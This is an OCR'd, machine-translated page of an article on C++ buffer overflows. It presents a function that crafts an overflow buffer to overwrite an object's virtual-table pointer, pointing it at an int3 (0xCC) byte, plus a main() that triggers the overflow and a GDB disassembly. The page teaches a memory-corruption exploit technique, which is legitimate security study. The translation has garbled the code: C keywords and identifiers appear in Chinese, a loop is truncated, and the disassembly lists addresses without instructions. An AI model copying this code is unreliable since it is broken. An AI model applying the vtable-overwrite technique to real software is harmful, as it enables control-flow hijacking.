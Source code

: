 char \*BufferOverflow(unsigned long BufferAddress,int NAddress,int VPTROffset) {

字符 \*缓冲区；无符号

长 \*LongBuffer;无符号长 CCOffset；诠释

我;

缓冲区=(char\*)malloc(VPTROffset+4+1);

CCOffset=(无符号长)VPTROffset‑1;对于 (i=0;i\<VPTROffset;i+

LongBuffer = (unsigned long \*) 缓冲区； for (i = 0; i

\<NAddress; i ++) LongBuffer \[i\] = BufferAddress + CCOffset;

LongBuffer = (unsigned long \*) & 缓冲区 \[VPTROffset\];

14/26

Machine Translated by Google

\* 长缓冲区 = 缓冲区地址；

缓冲区\[CCOffset\]=\'\\xCC\';

缓冲区\[VPTROffset+4\]=\'\\x00\';

返回缓冲区；

}

无效的主要 （）{

基类 \*Object\[2\];

对象\[0\]=新的 MyClass1；

对象\[1\]=新的 MyClass2；

Object\[0\]‑>SetBuffer(BufferOverflow((unsigned long)&(\*Object\[0\]),4,32));

对象\[1\]‑>SetBuffer(\"string2\");

对象\[0\]‑>PrintBuffer();

对象\[1\]‑>PrintBuffer();

}

我们编译并启动 GDB：

\...

(gdb) disass main

函数 main 的汇编代码转储：

0x8048670 \<主>: pushl %ebp

0x8048671 \<main+1>: movl %esp,%ebp

> 0x8048673 \<主+3>： 0x8048676 \<main+6>: 0x8048677 \<main+7>: 0x8048678 \<main+8>: 0x8048679 \<主+9>： 0x804867b \<main+11>: 0x8048680 \<main+16>: 0x8048683 \<main+19>: 0x8048685 \<主+21>： 0x8048686 \<main+22>: 0x804868b \<main+27>: 0x804868e \<main+30>: 0x8048690 \<主+32>： 0x8048693 \<主+35>： 0x8048695 \<main+37>: 0x804869a \<main+42>: 0x804869d \<主+45>： 0x804869f \<主+47>： 0x80486a0 \<main+48>: 0x80486a5 \<main+53>: 0x80486a8 \<主+56>：
